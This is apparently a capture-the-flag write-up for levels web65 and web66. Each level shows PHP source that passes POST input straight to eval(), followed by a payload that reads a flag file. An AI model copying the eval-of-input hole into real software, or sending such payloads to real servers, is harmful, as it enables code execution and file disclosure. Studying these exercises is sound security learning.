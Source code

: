 ## web65

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=show_source('flag.php');

```

## web66

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
$c=$_POST['c'];
eval($c);
}else{
highlight_file(__FILE__);
}

```

> 
Payload


```
c=highlight_file('/flag.txt');

```

## web67
